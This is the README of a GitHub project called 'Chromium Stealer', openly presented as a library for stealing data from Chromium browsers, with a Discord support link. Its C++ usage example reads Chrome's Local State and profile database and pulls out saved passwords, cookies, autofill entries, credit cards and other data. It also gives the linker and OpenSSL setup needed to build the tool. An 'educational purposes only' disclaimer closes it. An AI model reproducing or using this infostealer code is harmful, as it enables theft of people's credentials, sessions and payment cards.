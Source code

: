 # 🟩 Chromium Stealer 🟩 <a href="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml/badge.svg" alt="Working"></a>

## **A lightweight library-kind of project that can steal any kind of data from any chromium browsers.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "chromiumstealer.hpp"

int main() {

    // Check operating system
    if (!utils::console::is_windows()) {
        printf("The operating system has to be Windows NT\n");
	exit(EXIT_FAILURE);
    }

    // Set console to utf8 output to evade any gibberish characters
    if (!utils::console::set_utf8()) {
        printf("Couldn't set console IO to utf8 encoding.\nConsole IO could show gibberish texts.\n");
    }

    // Path to any chromium browser's files
    std::string Local_State_Path = "Google\\Chrome\\User Data\\Local State";
    std::string Database_Path = "Google\\Chrome\\User Data\\Default";

    // Define the stealer
    ChromiumStealer stealer(Local_State_Path, Database_Path);

    // Initialize the stealer
    stealer.initialize();

    // Get any data you want
    std::vector<ChromiumStealer::cookie_data> cookies_data = stealer.get_cookies();
    std::vector<ChromiumStealer::password_data> pass_data = stealer.get_password();
    std::vector<ChromiumStealer::autofill_data> auto_data = stealer.get_autofill();
    std::vector<ChromiumStealer::creditc_data> card_data = stealer.get_credit_card();
    std::vector<ChromiumStealer::keyword_data> key_data = stealer.get_keywords();
    std::vector<ChromiumStealer::status_data> status_data = stealer.get_status();

    // Print the data
    std::string passwords_result = stealer.print_passwords(pass_data);
    std::string cookies_result = stealer.print_cookies(cookies_data);
    std::string autofills_result = stealer.print_autofills(auto_data);
    std::string credit_cards_result = stealer.print_credit_cards(card_data);
    std::string keywords_result = stealer.print_keywords(key_data);
    std::string statuses_result = stealer.print_statuses(status_data);

    printf("\nPasswords Result: %s\n", passwords_result.c_str());
    printf("\nCookies Result: %s\n", cookies_result.c_str());
    printf("\nAutofills Result: %s\n", autofills_result.c_str());
    printf("\nCredit Cards Result: %s\n", credit_cards_result.c_str());
    printf("\nKeywords Result: %s\n", keywords_result.c_str());
    printf("\nStatuses Result: %s\n", statuses_result.c_str());
}
```

## Example.png

![alt text](https://github.com/yurtrimu/chromium-stealer/blob/main/example.png?raw=true)

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

## Linker
- **libssl.lib**
- **libcrypto.lib**
- **crypt32.lib**


## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟥 Not Working**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥
